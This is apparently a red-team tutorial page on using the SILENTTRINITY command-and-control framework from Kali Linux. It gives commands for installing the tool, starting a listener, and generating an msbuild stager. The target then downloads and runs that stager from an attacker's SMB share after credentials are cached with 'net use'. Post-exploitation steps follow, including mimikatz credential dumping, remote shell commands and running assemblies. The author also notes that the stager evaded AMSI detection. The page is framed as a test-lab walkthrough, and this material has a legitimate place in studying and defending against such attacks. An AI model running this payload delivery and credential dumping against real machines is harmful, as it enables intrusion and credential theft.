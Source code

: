 ```yaml
---
description: Using Kali as a C2 Server
---
```


# SILENTTRINITY

SILENTTRINITY is a tool made by [byt3bl33d3r](https://twitter.com/byt3bl33d3r) which uses Ironpython for awesome C2 and post exploitation. I'll refer to it as ST in this article.

{% embed url="https://github.com/byt3bl33d3r/SILENTTRINITY" caption="" %}

## Installation

Install the tool and its dependencies, then start it. I've included the manual installation of the latest and greatest [impacket ](https://github.com/SecureAuthCorp/impacket)here too.

{% code-tabs %}
{% code-tabs-item title="hacker@kali" %}
```text
#Install deps
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket
pip install -r requirements.txt
python setup.py install

#Install ST
apt install python3.7 python3.7-dev python3-pip
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY/Server
python3.7 -m pip install -r requirements.txt

#Start it up
python3.7 st.py
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Ready to go](../.gitbook/assets/image-31.png)

## Listening

Proceed with selecting a listener, binding it to an IP + port and starting it. And btw I set my BindIP to a different subnet because I am connected to my test lab using VPN. Nothing magic going on.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
listeners
list
use http
options
set BindIP 10.0.8.6
start
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-56.png)

## Staging

Proceed to generate a stager. It will end up in the `/opt/SILENTTRINITY/Server` directory.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
stagers
list
use msbuild
generate http
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-42.png)

![](../.gitbook/assets/image-11.png)

## Execution

Now, find an appropriate way of downloading and triggering the stager. As per November 2018, the msbuild stager payloads still haven't triggered AMSI on Windows 10 1803.

### Serving the payload

A neat trick is using an SMB server for serving the payload. Download and trigger it it with `msbuild` and the UNC path to your SMB server as argument.

First create a share folder and then start the SMB server from impacket.

{% code-tabs %}
{% code-tabs-item title="hacker@kali" %}
```text
mkdir /opt/SMB
smbserver.py SMB /opt/SMB -username hacker -password hacker -smb2support -ip 10.0.8.6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-1.png)

### Triggering the payload

Now we try to trigger the payload with msbuild, but it fails because we aren't authenticated.

{% code-tabs %}
{% code-tabs-item title="victim@target" %}
```text
cp /opt/SILENTTRINITY/Server/msbuild.xml /opt/SMB/msbuild.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\10.0.8.6\SMB\msbuild.xml
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-34.png)

### Caching credentials

So why did we specify credentials then? On Windows 10 you can't use SMB unauthenticated by default. And as far as I know there isn't a way to give msbuild credentials directly. So I fiddled around and find a little trick to cache some credentials for my SMB server on the host. As you see I use hacker/hacker for authentication. Very secure of course. On the target, trigger an authenticated `net use` command. This should try to access the SMB share with the specified credentials, and therefore cache them locally on the target. From an opsec perspective this isn’t ideal, so if you have suggestions please reach out.

{% code-tabs %}
{% code-tabs-item title="victim@target" %}
```text
net use \\10.0.8.6\smb /user:hacker hacker
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-32.png)

We see that we get a successful authentication and a NetNTLMv2 hash instantly. So now with cached credentials on the target, let's try to trigger our payload again.

![](../.gitbook/assets/image-12.png)

Voila! Something started happening. Let's check back in ST.

![](../.gitbook/assets/image-36.png)

Like sweet magic, we got a session. The authentication reuses the credentials that were cached.

## Modules

Now we list the session we just acquired. Because I triggered the payload from an elevated shell, we have a session with elevated privileges. That allows us to do things like dump credentials and other kinds of post exploitation fun.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
sessions
list
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-41.png)

So let's explore some of the post exploitation modules that ST has to offer. As you can see, ST has a lot of built in modules already and by the looks of it, there are more to come.

![](../.gitbook/assets/image-2.png)

Let's select the `mimikatz` module and run it towards our session. Word of notice here, you have to copy the GUID from the session list so you have it ready. You can alternatively use `run all` to run it on all session, if you have several sessions.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
list
use mimikatz
options
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-27.png)

Running the shell module for good measure

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
use shell
options
set Command whoami
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-47.png)

Trying the execute-assembly module with [Watson](https://github.com/rasta-mouse/Watson). Actually noticed at this point that ST starts autocompleting the GUID for the session I'm working on. Right arrow on the keyboard to complete it.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
use execute-assembly
options
set Assembly /opt/Watson.exe
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image-3.png)

![](../.gitbook/assets/image-7.png)

Didn't find anything on my patched Windows 10 1803 VM, but that's ok.

Thanks [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for an awesome C2 platform.

